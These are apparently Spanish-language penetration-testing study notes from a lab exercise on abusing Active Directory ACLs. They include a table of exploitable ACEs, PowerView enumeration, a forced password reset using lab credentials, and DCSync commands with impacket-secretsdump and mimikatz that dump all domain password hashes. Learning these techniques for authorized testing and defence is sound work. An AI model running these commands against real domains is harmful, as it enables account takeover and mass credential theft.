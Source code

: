 #ACL 
## Enumeración ACL
Las ACEs nos pueden servir para establecer persistencia, escalar privilegios o realizar moviemientos laterales, además de que son muy difíciles de detectar por AV o escáneres de vulnerabilidades. Algunas de las ACEs más importantes las podemos detectar con herramientas como `BloodHound` y abusarlas con `PowerView`, entre otras herramientas posibles
Tabla de ACEs y como se pueden explotar

## Tabla explotación

| **ACL (Permiso/ACE)**   | **Técnica/Herramienta de Abuso**                   | **Descripción del Abuso**                             |
| ----------------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **ForceChangePassword** | `Set-DomainUserPassword`                           | Cambiar la contraseña de un usuario sin conocerla.    |
| **Add Member**          | `Add-DomainGroupMember`                            | Agregar usuarios a grupos, elevando privilegios.      |
| **GenericAll**          | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Control total sobre el objeto (contraseñas/grupos).   |
| **GenericWrite**        | `Set-DomainObject`                                 | Modificar atributos de un objeto de AD.               |
| **WriteOwner**          | `Set-DomainObjectOwner`                            | Cambiar el dueño de un objeto, obteniendo control.    |
| **WriteDACL**           | `Add-DomainObjectACL`                              | Modificar permisos del objeto (ACL).                  |
| **AllExtendedRights**   | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Ejercer derechos avanzados (restablecer contraseñas). |
| **Addself**             | `Add-DomainGroupMember`                            | Agregarse a sí mismo a grupos con privilegios altos.  |
![[Pasted image 20250108092039.png]]
## Enumeración ACL

Es complicado hacerlo de forma manual y genera gran cantidad de información irrelevante (p. ej: `Find-InterestingDomainAcl` genera demasiada información). 
### Búsqueda dirigida - `Get-DomainObjectACL` (PowerView)
Se realiza una búsqueda sobre usuarios sobre los que tenemos el control (supongamos `wley`) y se identifican otros objetos sobre los que este usuario tiene permisos. Se añade la flag `ResolveGUIds` para que los permisos aparezcan en formato más amigable para el usuario
```powershell
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Si no tuviéramos `PowerView`, aún podríamos obtener un resultado similar escribiendo lo siguiente:
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt 
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
### Sharphound
Es más rápido, visual y potente para auditorías de Active Directory, especialmente para **identificar rutas de escalación de privilegios y relaciones complejas**.
## Ejemplos de abuso de ACEs
### Cambio de contraseña
**Permiso  `User-Force-Change-Password` -> `Set-DomainUserPassword`**
Supongamos que un usuario (`wley`) tiene un permiso `User-Force-Change-Password` sobre otro usuario (`damundsen`)
- Creamos objeto PSCredential para `wley`  con sus credenciales (`$credWley`)
	```powershell
	$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
	$CredWley = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
	```
- Creamos otro objeto tipo  `SecureString` para `damundsen` con las credenciales que queramos (`$passDam`)
	```powershell
	$passDam = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
	```
- Cambiamos la contraseña de usuario con `Set-DomainUsePassword` (no haría falta pasar credenciales si estuviéramos autenticados como `wley`)
	```powershell
	Set-DomainUserPassword -Identity damundsen -AccountPassword $passDam -Credential $CredWley -Verbose
	```
### Kerberoasting dirigido
**Permiso  `WriteProperty` | `Self` -> `Set-DomainObject`**
Se crea un SPN falso asociado a la cuenta de usuario que queramos comprometer para craquear posteriormente. [[Kerberoasting#Kerberoasting dirigido| Revisar aquí]]

### DCSync
Son parte de una ACL en AD. Estos privilegios permiten replicar datos del AD. Explota el protocolo Directory Replication Service (DRS), que utilizan los DC para sincronizar datos entre sí. En cuanto a obtención de información es equivalente a NTDS.dit
#### Comprobar usuarios con permisos DCSync
- Listar todos los usuarios ó grupos con permisos `DCSync`
	```powershell
	Get-DomainObjectAcl -SearchBase "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.ObjectType -match 'DS-Replication-Get-Changes|DS-Replication-Get-Changes-All')}
	```
- Comprobar si un usuario (`adunn`) tiene permisos DCSync sobre el dominio
	```powershell
	$sid = Convert-NameToSid adunn
	# $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
	# Opción chatgpt
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.SecurityIdentifier -eq (Get-DomainUser adunn).SID)}
	```
#### Extraer hashes NTML y tickets kerberos - `secretsdump.py`

```powershell
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@$target
```
- La flag `-just-dc` indica que debe extraer los hashes del archivo NTDS.dit
- Devolverá 3 archivos
#### Extraer hashes NTML y kerberos - `mimikatz`
- Extraer el hash de administrador
	```powershell
	lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator 
	# Ó con un solo paso y guardando el contenido 
	./mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator" "exit" > adminPass.txt
	```
- Extraer los hashes de todos los usuarios: 
	```powershell
	`mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all exit" > resultado.txt`
	```